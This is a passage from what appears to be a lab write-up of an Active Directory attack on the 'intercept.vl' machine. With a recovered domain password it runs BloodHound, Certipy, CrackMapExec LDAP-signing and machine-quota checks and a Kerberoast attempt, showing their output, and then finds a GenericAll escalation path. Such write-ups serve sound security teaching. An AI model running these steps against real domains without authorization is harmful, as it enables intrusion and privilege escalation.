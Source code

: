 This worked and gives us our first domain credentials: `kathryn.spencer:Chocolate1` . Having domain credentials opens up [a whole new world](https://www.youtube.com/watch?v=0eWUhXPhIaE) of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts

```
# Bloodhound
bloodhound-python -c all --disable-pooling -w 1 -u kathryn.spencer -p 'Chocolate1' -d intercept.vl -dc dc01.intercept.vl -ns 10.10.158.69 --dns-tcp --zip --dns-timeout 120
INFO: Found AD domain: intercept.vl
...
INFO: Done in 00M 23S
INFO: Compressing output into 20230701183457_bloodhound.zip

# Certipy
/usr/local/bin/certipy find -u "kathryn.spencer" -p 'Chocolate1' -dc-ip 10.10.158.69  -dns-tcp -ns 10.10.158.69 -bloodhound
[*] Finding certificate templates
[*] Found 33 certificate templates
...
[*] Got CA configuration for 'intercept-DC01-CA'
[*] Saved BloodHound data to '20230701183614_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k

# LDAP Signing
crackmapexec ldap 10.10.158.69 -u kathryn.spencer -p Chocolate1 -M ldap-checker
SMB         10.10.158.69   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.158.69   389    DC01             [+] intercept.vl\kathryn.spencer:Chocolate1
LDAP-CHE... 10.10.158.69   389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.158.69   389    DC01             Channel Binding is set to "NEVER" - Time to PWN!

# Machine Account Quota
crackmapexec ldap dc01.intercept.vl -u kathryn.spencer -p 'Chocolate1' -M maq
SMB         dc01.intercept.vl 445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        dc01.intercept.vl 389    DC01             [+] intercept.vl\kathryn.spencer:Chocolate1
MAQ         dc01.intercept.vl 389    DC01             [*] Getting the MachineAccountQuota
MAQ         dc01.intercept.vl 389    DC01             MachineAccountQuota: 10

# Kerberoast
impacket-GetUserSPNs intercept.vl/kathryn.spencer:'Chocolate1' -dc-ip 10.10.158.69 -debug
No entries found!
```

After importing both certipy’s & bloodhound’s zips into the local Bloodhound database, we check for any suspicious configurations in the UI. This reveals that Simon Bowen is in the helpdesk group which has GenericAll permissions over the ca-managers OU. GenericAll will allow us to take control over the ca-managers group inside the OU and to add ourselves (e.g. Simon) to this group as well. But we don’t have any credentials for Simon yet. Looking at Kathryn’s permissions does not show anything interesting – so what can we do at this point?
